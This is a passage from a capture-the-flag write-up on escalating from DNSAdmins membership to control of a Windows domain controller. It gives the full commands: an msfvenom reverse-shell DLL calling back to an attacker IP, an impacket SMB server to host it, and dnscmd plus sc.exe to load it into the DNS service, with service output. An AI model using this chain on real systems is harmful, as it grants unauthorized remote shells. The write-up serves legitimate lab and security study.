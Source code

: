A few Google research allow us to find that being DNSAdmin allow for privilege
escalation. The technique is to change the DNS configuration so it will load a
DLL when starting the DNS service. We can either charge the DLL locally or
remotely using SMB.

  * [https://adsecurity.org/?p=4064](https://adsecurity.org/?p=4064)
  * [https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DNSAdmins/DNSAdmins.md](https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DNSAdmins/DNSAdmins.md)
  * [http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html](http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html)
  * [https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83)

In order to write the DLL we use `msfvenom` with a classic reverse shell
payload.

    :::text
    msfvenom -p windows/x64/shell_reverse_tcp LHOST="10.10.14.56" LPORT=4444 -f dll -o ~/srv/msf3.dll

We start our SMB server using
[impacket](https://github.com/SecureAuthCorp/impacket) `smbserver.py`

    :::text
    python smbserver.py -ip 10.10.14.56 IOIO ~/srv/

Registry property serverlevelplugindll successfully reset.
Command completed successfully. We start our handler using metasploit. And using
our shell as `ryan` we change the DNS configuration, stop the DNS service and
start it back using `sc.exe`. We can see in our SMB server's logs that our
DLL is sent to the server. And we can see on our metasploit handler that we get
a revershell. We can then easily get the root flag.

    ::: text
    *Evil-WinRM* PS C:\Users\ryan> dnscmd /config /serverlevelplugindll \\10.10.14.56\IOIO\msf3.dll

    *Evil-WinRM* PS C:\Users\ryan> sc.exe stop dns

    SERVICE_NAME: dns
            TYPE               : 10  WIN32_OWN_PROCESS
            STATE              : 3  STOP_PENDING
                                    (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
            WIN32_EXIT_CODE    : 0  (0x0)
            SERVICE_EXIT_CODE  : 0  (0x0)
            CHECKPOINT         : 0x1
            WAIT_HINT          : 0x7530
    *Evil-WinRM* PS C:\Users\ryan> sc.exe start dns

    SERVICE_NAME: dns
            TYPE               : 10  WIN32_OWN_PROCESS
            STATE              : 2  START_PENDING
                                    (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
            WIN32_EXIT_CODE    : 0  (0x0)
            SERVICE_EXIT_CODE  : 0  (0x0)
            CHECKPOINT         : 0x0
            WAIT_HINT          : 0x7d0
            PID                : 4980
            FLAGS              :
